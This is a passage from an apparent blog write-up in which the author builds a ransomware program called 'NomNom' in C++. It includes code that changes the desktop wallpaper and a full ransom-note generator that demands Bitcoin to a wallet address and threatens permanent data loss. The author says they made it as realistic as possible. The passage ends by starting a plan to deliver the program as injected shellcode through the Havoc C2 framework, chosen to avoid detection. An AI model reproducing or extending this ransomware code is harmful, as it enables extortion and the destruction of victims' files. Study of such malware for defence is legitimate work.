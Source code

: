 ```cpp
    }

    wcout << L"[+] Successfully set non-BMP wallpaper: " << imagePath << std::endl;
    return EXIT_SUCCESS;
}
```

The first time I run NomNom with this function implemented was  surreal. This was when NomNom really started to take shape.

## Ransom Note Generation

When NomNom is executed, a ransom note is generated which is then opened automatically using notepad. Notepad was the obvious choice as all Windows systems come with it pre-installed. Below is how I implemted it;

```cpp
int generateRansomNote(const string& outDirectory) {
    string notePath = outDirectory + "/README_RECOVER_FILES.txt";

    ofstream ransomFile(notePath);
    if (!ransomFile) {
        std::cerr << "[-] Failed to create ransom note in: " << outDirectory << endl;
        return EXIT_FAILURE;
    }

    ransomFile << "YOUR FILES HAVE BEEN ENCRYPTED!\n\n"
        << "To recover your files, follow the instructions below:\n"
        << "1. Send 0.01 BTC to the following wallet address: 1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa\n"
        << "2. Email us at NomNom@protonmail.com with proof of payment.\n"
        << "3. We will send you the decryption tool.\n\n"
        << "Failure to pay within 48 hours will result in permanent data loss.\n"
        << "DO NOT try to recover the files yourself! Any attempts may result in permanent data loss.";

    ransomFile.close();
    cout << "[+] Ransom note created at: " << notePath << std::endl;

   
    system(("notepad " + notePath).c_str());

    return EXIT_SUCCESS;
}
```

I tried to make it as realistic as possible.

## Going Pro: Havoc C2 Integration

Now, for the Havoc C2 integration. Instead of dropping an exe, I generated shellcode which I could inject into a process and have it executed. An exe would be saved on disk which would make it prone to detection, although shellcode can equally be detected, it is a stealthier option. I generated x64 shellcode and then converted it to a C array using xxd.
